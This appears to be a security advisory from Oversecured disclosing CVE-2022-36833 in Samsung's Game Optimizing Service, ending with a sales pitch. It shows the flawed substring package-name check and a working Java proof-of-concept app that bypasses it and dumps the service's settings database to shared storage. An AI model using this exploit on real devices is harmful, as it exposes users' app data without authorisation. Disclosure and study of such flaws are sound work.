

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Game Optimizing Service</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.game.gos</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.26</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>High</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36833">CVE-2022-36833</a> (SVE-2022-0752)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$2250</td>
    </tr>
</table>

# Description

Oversecured found a service with exposed AIDL interfaces:


We found that every AIDL interface performs a package name and UID check internally. And only then some action is performed or data is returned. However, this check was not implemented securely enough, so it could be bypassed:
```java
    } else if (isAllowedSystemApp(nameForUid, callingUid)) {
        AidlPermissionHolder.getInstance().add(nameForUid, callingUid, true);
        return new Pair<>(true, nameForUid);
    } else {
```
```java
protected boolean isAllowedSystemApp(String str, int i) {
    StringBuilder sb = new StringBuilder("isAllowedSystemApp(), ");
    boolean z = true;
    if ("android.uid.system:1000".equals(str) && i == 1000) {
        sb.append("it is a system app.");
    } else if ("android.uid.intelligenceservice:5010".equals(str) && i == 5010) {
        sb.append("it is Rubin.");
    } else if (str.contains("com.samsung.accessory.wmanager")) { // <<<
        sb.append("it is Buds+.");
    } else {
        z = false;
    }
    if (z) {
        GosLog.m15i(LOG_TAG, sb.toString());
    }
    return z;
}
```

As you can see from the above code, if the package name of the calling app contains `com.samsung.accessory.wmanager` in it, then the check will pass successfully.

**Proof of Concept**

You need to name the app `oversecured.poccom.samsung.accessory.wmanager` and run the following code:

```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.samsung.android.game.gos", "com.samsung.android.game.gos.endpoint.GosSystemService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.samsung.android.game.gos.IGosSystemService");
        parcel.writeString("test_features");
        parcel.writeString("{'tester_command_id':'moveGosDbToExternal'}");

        Parcel reply = Parcel.obtain();

        binder.transact(1, parcel, reply, 0);
        reply.readException();
        Log.i("evil", "Reply: " + reply.readString());
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

This will save all Game Optimizing Service settings to the SD card at the path `/sdcard/Download/gos_db`.

## References

- [Oversecured Blog. Common mistakes when using permissions in Android](https://blog.oversecured.com/Common-mistakes-when-using-permissions-in-Android/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.